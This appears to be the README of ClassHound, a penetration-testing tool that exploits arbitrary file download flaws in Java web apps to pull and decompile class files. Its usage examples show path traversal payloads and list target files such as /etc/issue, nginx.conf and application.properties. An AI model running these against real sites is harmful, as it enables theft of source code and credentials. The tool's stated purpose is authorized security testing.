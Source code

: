 # ClassHound
**利用任意文件下载漏洞自动循环下载并反编译class文件获得网站源码**



### 下载

```bash
git clone --depth=1 --branch=master https://www.github.com/LandGrey/ClassHound.git
cd ClassHound/
pip install requirements.txt
chmod +x classhound.py
python classhound.py -h
```



### 使用

```markdown
1. -u -k
# 指定可正常下载的目标链接, 并默认使用 '#' 字符标记任意文件下载漏洞的文件位置; 
# -k 参数指定下载失败页面会出现的关键字，用来标识是否下载成功
python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#" -k "404 not found"

2. -p -dc
# 使用 POST 请求下载文件，并指定标记符为 '##'
python classhound.py -u "http://127.0.0.1/download.jsp" -dc "##" --post "path=##1.png##"

3. -tc -cc
# 当程序自动识别不出漏洞时,如果明确知道遍历文件的字符，可用 -tc 参数指定
# 如果明确知道下载 WEB-INF/web.xml 文件所需要的遍历文件字符数量的话，可同时用 -cc 参数指定
# 例如当能够使用 http://127.0.0.1/download.jsp?path=../../../WEB-INF/web.xml 下载文件时:
python classhound.py -u "http://127.0.0.1/download.jsp?path=#1.png#" -tc "../" -cc 3

4. -f --auto
# 如果想顺带下载些其他已知文件, 可将服务器文件的相对路径一行一个写入文件中, 然后用 -f 参数指定文件
# 相对路径的文件下载可能需要不一样数量的遍历字符, 可以启用 -a/--auto 参数，程序会尝试不同数量的遍历字符
# 例如创建文件 download.txt，内如如下:
/etc/issue
install/index.jsp
/etc/nginx/nginx.conf
application.properties
ROOT/META-INF/MANIFEST.MF
WEB-INF/classes/me/landgrey/config/config.class


# 然后使用命令
python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#" -k "404 not found" -f download.txt --auto

5. 其余参数
-hh		增加请求时的 HTTP Header
-hp		设置 HTTP/HTTPS 代理
-mc		设置自动探测时尝试的最大遍历字符数量, 默认 10
```



### 效果图

![GIF.gif](https://raw.githubusercontent.com/LandGrey/ClassHound/master/GIF.gif)



### 注意事项

```
1. 程序兼容 python 2.7+ 和 3.4+, 运行前先安装 requirements.txt 中的python模块, 并安装配置好 java 环境变量
2. 使用过程中的 bug 和优化建议欢迎提 issue
3. 程序仅作为安全研究和授权测试使用, 开发人员对因误用和滥用该程序造成的一切损害概不负责
```

### 依赖开源程序
反编译工具 [https://github.com/leibnitz27/cfr](https://github.com/leibnitz27/cfr)
